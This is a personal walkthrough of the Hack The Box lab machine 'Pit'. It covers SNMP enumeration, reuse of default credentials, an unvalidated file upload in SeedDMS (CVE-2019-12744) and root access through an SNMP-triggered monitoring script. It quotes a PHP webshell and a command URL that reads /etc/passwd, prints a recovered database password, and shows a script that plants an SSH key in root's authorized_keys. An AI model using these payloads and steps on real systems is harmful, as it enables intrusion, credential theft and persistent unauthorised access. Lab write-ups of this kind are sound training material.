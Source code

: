 ![[Pasted image 20250422144133.png]]
check the port 9090 the app are redirect us to [[HTTPS]]. using [[openssl]]
we can try check the [[ssl]] certification.
```bash
openssl s_connect -connect pit.htb:9090
```
and we can see another subdomain
![[Pasted image 20250422144548.png]]

we realize fuzzing on the three different webs apps and get nothing
so, lets try scan with [[User Datagram Protocol (UDP)]]

```bash
sudo nmap -sU --top-ports 500 -v -n -oG scans/top500_ports_udp 10.10.10.241
```
![[Pasted image 20250422145947.png]]
[[port 161]] is open, with [[Simple Network Management Protocol (snmp)]]

the lets use [[onesixtyone]] to get a `community string`.
![[Pasted image 20250422150525.png]]
that's `public`.

so, with [[snmpbulkwalk]] we can do a walk in snmp protocol and get something of data.
![[Pasted image 20250422154057.png]]
first, we find this url, maybe corresponds a route of three web apps we found above.
and indeed, we found something
![[Pasted image 20250422154527.png]]
in the report of `snmpwalk` we found also possible users. ![[Pasted image 20250422154749.png]]
so if use user `michelle` and password `michelle`, you can enter.

now we need try to upload a malicious document, following this indications
```
# Exploit Title: [Remote Command Execution through Unvalidated File Upload in SeedDMS versions <5.1.11]
# Google Dork: [NA]
# Date: [20-June-2019]
# Exploit Author: [Nimit Jain](https://www.linkedin.com/in/nimitiitk)(https://secfolks.blogspot.com)
# Vendor Homepage: [https://www.seeddms.org]
# Software Link: [https://sourceforge.net/projects/seeddms/files/]
# Version: [SeedDMS versions <5.1.11] (REQUIRED)
# Tested on: [NA]
# CVE : [CVE-2019-12744]

Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```

at we do this, we can use [[TTY over HTTP]] to get a "fake interactive shell" replacing the url of our backdoor on the script.
searching with that shell we found a file called `settings.xml`
```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
```
with credentials of [[MySQL]] `seeddms:ied^ieY6xoquu`
and using mysql interpreter we can list data of a table `tblUsers`
![[Pasted image 20250422163904.png]]
and get that

on `pit.htb:9090` we can try credentials `michelle:ied^ieY6xoquu` and get access and in section of `terminal` establish a connection with our machine.

In `snmpbulkwalk` we see a command are executing on the system on the path `/usr/bin/monitor`, so let's see more deeply

![[Pasted image 20250422175830.png]]
that script are executing all in path `/usr/local/monitoring/` called `check<ANYTHING>sh`, so let's approach that for insert a public key of mine in folder `/root/.ssh/` to get access with [[ssh]]
so, first let's create a keys with [[ssh-keygen]] inside `/.ssh/`

```bash
ssh-keygen
```

![[Pasted image 20250422180221.png]]
with any password.

and copy:
```bash
cat id_ed25519.pub | tr -d '\n' | copy
```

now let's with the script.
```bash
#!/bin/bash

echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJMggl5wArWgU3SlkEAQUQimufBFzr1TEKJFJprbUC8y entr0phy4@archlinux >/root/.ssh/authorized_keys

```

now, if we execute
```bash
snmpbulkwalk -v2c -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

the binary `/usr/bin/monitor` will also be executed.

and if all works successful:
![[Pasted image 20250422180957.png]]

